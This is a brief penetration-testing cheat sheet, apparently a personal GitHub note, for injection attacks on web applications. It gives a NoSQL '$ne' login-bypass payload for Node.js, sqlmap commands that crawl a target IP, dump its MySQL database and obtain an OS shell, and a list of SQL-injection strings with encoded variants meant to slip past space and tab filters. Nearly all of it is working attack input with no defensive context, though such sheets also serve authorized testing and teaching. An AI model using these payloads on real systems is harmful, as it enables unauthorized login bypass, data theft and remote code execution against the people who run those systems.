 ## node.js

1. change Content-type application/json
2. convert payload to json

```
{
"username": { "$ne": "RandomNOExiste"},
"passowrd": { "$ne": "ipssec"},
"login":"login"
}

```

# Automated sql injection tools [sqlmap]

---

look for vulnerabilities


```
root@kali: sqlmap -u http:192.168.30.35 --crawl=1
```

Removing date


```
root@kali:sqlmap -u http://192.168.30.35/comment.php?id=839 --dbms=mysql --dump --threads=5
```

other arguments:

```
--os-shell: automatic code execution: os-shel> ipconfig ->succes
```




### Top SQL Injections:

1- >> ' OR 1=1 #

2- >> " OR 1=1 #

3- >> ' OR 1=1 ' LIMIT 1 #

4- >> " OR 1=1 ' LIMIT 1 #

5- >> %27%09OR%091%3D1%23 | (ENCODING to bypass the space filter by replacing it with tabs) | use BurpSuite >>`' OR 1=1#`

6- >> %27%20%2F%2A%2A%2For%2F%2A%2A%2F1%3D1%23 | (ENCODING to bypass spaces and tabs filter) >>`' /**/or/**/1=1#`

**Basic**

> > __' OR 1=1 ;-- - __
> > 
> > __') OR 1=1; -- - __
> > 
> > **' and 'a '='a**
> > 
> > **' and 'a'='b**
